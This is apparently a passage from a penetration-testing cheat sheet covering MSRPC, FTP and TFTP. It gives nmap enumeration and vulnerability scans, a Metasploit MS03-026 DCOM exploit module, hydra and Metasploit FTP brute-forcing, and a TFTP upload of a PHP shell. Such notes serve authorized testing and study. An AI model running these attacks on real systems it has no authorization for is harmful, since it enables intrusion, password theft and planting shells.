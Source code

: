 ```
nmap $ip --script=msrpc-enum
```

```
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

## FTP enumeration

#### Enumerate:

```
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $ip
```

{% hint style="warning" %}
If anonymous login or any other login is allowed but you can't get Filezilla to open it. Play about with the connection settings, ACTIVE\PASSIVE\AUTO.
{% endhint %}

#### Bruteforce

```
hydra -l user -P /usr/share/john/password.lst ftp://$ip:21
```

#### Bruteforce with metasploit

```
msfconsole -q msf> search type:auxiliary login: msf> use auxiliary/scanner/ftp/ftp_login
```

#### Vuln scan

```
nmap --script=ftp-* -p 21 $ip
```

### TFTP

If unauthenticated access is allowed with write permissions you can upload a shell:

```
tftp $ip
tftp> ls
?Invalid command
tftp> verbose
Verbose mode on.
tftp> put shell.php
Sent 3605 bytes in 0.0 seconds [inf bits/sec]
```

```
nmap -sU -p 69 --script tftp-enum.nse $ip 
```
